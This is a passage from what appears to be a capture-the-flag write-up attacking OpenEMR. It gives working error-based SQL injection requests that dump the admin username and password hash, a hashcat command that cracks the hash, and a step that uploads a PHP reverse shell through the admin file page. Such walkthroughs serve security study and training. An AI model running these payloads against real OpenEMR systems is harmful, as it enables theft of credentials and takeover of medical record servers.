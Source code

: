 Enumerating the values from the columns _username_ and _password_:
```
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+username+FROM+users_secure+LIMIT+0,1)))
--> openemr_admin
```

As a password hash is often long and the characters in the response are limited to a certain amount, the _password_ has to be obtained in two parts:
```
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+SUBSTRING(password,1,30)+FROM+users_secure+LIMIT+0,1)))
--> $2a$05$l2sTLIG6GTBeyBf7TAKL6.t

GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+SUBSTRING(password,31,60)+FROM+users_secure+LIMIT+0,1)))
--> tEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
```

Credentials of _openemr_admin_:
```
openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
```

The credentials are encrypted and have to be cracked with **Hashcat**:
```
hashcat --user -m 3200 openemr_admin.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password for _openemr_admin_ is:
> xxxxxx

### Exploiting OpenEMR with Authentication

The admin interface in **OpenEMR** has different functionalities and one of them is to upload files:
```
Administration --> Files
```

I will upload the PHP reverse shell script _php-reverse-shell.php_ from the **Laudanum** scripts.

![Uploading PHP shell](cache_web-5.png)

